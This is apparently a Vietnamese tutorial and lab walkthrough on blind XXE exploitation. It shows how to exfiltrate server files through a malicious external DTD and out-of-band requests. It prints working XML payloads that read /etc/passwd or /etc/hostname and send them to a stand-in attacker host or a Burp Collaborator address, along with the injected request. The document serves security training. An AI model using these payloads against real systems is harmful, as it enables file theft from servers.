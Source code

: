 #### 2. Exploit Blind XXE OAST
* Khi ta đã có thể xác định hệ thống bị lỗ hỏng `XXE` và có thể `OAST`, thì từ đây ta có thể tận dụng lỗ hỏng để dễ dàng leak data ra bên ngoài. Ta phải dùng đến `OAST` để thực hiện Blind vì ta thấy dữ liệu không được hiển thị trực tiếp lên màn hình, bằng cách lưu trữ một `DTD (Document Type Definition)` độc hại trên một hệ thống do ta kiểm soát, và sau đó gọi `DTD` này từ payload `XXE`.
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-    attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    * Định nghĩa một `parameter entity` tên `file`, chứa nội dung của tệp `/etc/passwd`.
    * Định nghĩa thêm một `parameter entity` tên `eval`, chứa một khai báo động của một `parameter entity` khác tên là `exfiltrate`. Thực thể `exfiltrate` sẽ được đánh giá bằng cách gửi cầu `HTTP` đến máy chủ web của kẻ tấn công, chứa giá trị của thực thể `file` trong chuỗi truy vấn `URL`.
    * Sử dụng thực thể `eval`, điều này kích hoạt khai báo động của thực thể `exfiltrate`.
    * Sử dụng thực thể `exfiltrate`, giá trị của nó sẽ được đánh giá bằng cách yêu cầu `URL` đã chỉ định.
--> Để hiểu hơn thì ta sẽ tiến hành thực hiện 1 lab, 
--> **Lab 1: Exploiting blind XXE to exfiltrate data using a malicious external DTD**
![image](https://hackmd.io/_uploads/S1m9ngGfyx.png)
* Lab vẫn như các bài trước, server đã cho ta sẵn một `server` riêng để exploit từ đó có thể gửi data leak được đến server này.
![image](https://hackmd.io/_uploads/Hyi4alfzyx.png)
* Như ta thấy, exploit theo cách thông thường sẽ không được vì server đã `filtered`, thậm chí cả cách thực hiện `paramteter entity` cũng không thành công, giờ ta sẽ xem thử `exploit server` có gì
![image](https://hackmd.io/_uploads/H1Ou6gMMyx.png)
* Dường như nó là một `HTTP Server` để nhận Respone, ta có thể code payload ở phần body
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM     'http://BURP-COLLABORATOR-    SUBDOMAIN/?x=%file;'>">
    %eval;
    %exfil;
    ```
* sau đó ở phía post request ở server ta sẽ sửa `XML` như sau:
    ```xml
    
    <?xml version="1.0"     encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY %     xxe SYSTEM "YOUR-DTD-    URL"> %xxe;]>
    <stockCheck>    <productId>1</productId>    <storeId>1</storeId>    </stockCheck>
    ```
* Cụ thể quy tắt hoạt động của việc khai thác này như sau:

    1. Ta sẽ vào `exploit server` để tạo payload và lấy url exploit từ đây, với thực thể `exfile` sẽ thực hiện truy cập đến link `Burp Collaborator`
    ![image](https://hackmd.io/_uploads/H1KwnMGfJg.png)
    2. Sau đó ta sẽ sửa payload của file `XML`, dễ hiểu là khi ta run đoạn mã này thì thực thể `%xxe` được kích hoạt và truy cập đến link `exploit server`, mà ở exploit server ta sẽ có thực thể `file` phụ trách việc đọc đường dẫn `/etc/hostname`, sau đó thực thể `eval` sẽ khởi tạo thêm thực thể `exfile` để thực hiện truy cập đến `Burp Collaborator`
    ![image](https://hackmd.io/_uploads/Hk6AnfGMkl.png)
    3. Bước tiếp theo, sau khi gửi request post đã sửa thì ta sẽ `poll now` ở `Burp Collaborator`. Khi request được gửi như tiến trình trên thì ta sẽ có step lần lượt là `%xxe; gửi request đến exploit server` --> `exploit server sẽ khởi tạo file và eval để thực hiện việc đọc đường đẫn ở /etc/hostname` --> `tiếp đó là kết quả sẽ được gửi về Burp Collaborator` chính vì thế khi ta poll về ta sẽ nhận được request được trả về 
    ![image](https://hackmd.io/_uploads/HJOOymGfyg.png)
    4. Kết quả nội dung `etc/hostname` sẽ được trả về ở request gửi đến `Burp Collaborator` 